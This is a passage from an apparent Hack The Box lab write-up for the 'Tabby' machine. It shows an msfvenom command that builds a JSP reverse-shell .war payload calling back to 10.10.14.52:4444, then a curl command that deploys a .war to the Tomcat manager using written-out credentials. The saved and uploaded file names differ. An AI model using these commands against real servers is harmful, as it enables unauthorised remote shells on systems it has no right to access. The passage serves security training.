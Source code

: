 It's a success! Since we now know we can access the tomcat manager, lets create the .war payload.
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.52 LPORT=4444 -f war -o revshell.war
```

Now we can upload the .war file to the tomcat manager.
```
curl -v -u 'tomcat:$3cureP4s5w0rd123!' -T shell.war 'http://megahosting.htb:8080/manager/text/deploy?path=/shell'
```

![Image of curl tomcat](/images/htb/tabby/curl-tomcat-upload.png)
